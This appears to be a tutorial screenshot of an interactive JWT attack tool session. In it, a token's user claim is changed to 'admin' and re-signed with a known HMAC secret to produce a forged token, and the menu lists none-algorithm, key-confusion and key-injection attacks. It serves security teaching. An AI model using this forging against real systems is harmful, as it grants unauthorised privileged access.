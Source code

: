 ```bash

Token payload values:
[1] user = anas
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of user is: None
Please enter new value and hit ENTER
> admin
[1] user = admin
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token Signing:
[1] Sign token with known HMAC-SHA 'secret'
[2] Sign token with RSA/ECDSA Private Key
[3] Strip signature using the "none" algorithm
[4] Sign with HS/RSA key confusion vulnerability
[5] Sign token with key file
[6] Inject a key and self-sign the token (CVE-2018-0114)
[7] Self-sign the token and export an external JWKS
[8] Keep original signature

Please select an option from above (1-5):
> 1

Please enter the known key:
> hackingbible

Please enter the keylength:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

Your new forged token:
[+] URL safe: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.d9nOzQ6Dc-N077EOEhFVJdvA7ufgp8qb-fLLUkIyqZc
[+] Standard: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.d9nOzQ6Dc+N077EOEhFVJdvA7ufgp8qb+fLLUkIyqZc

```
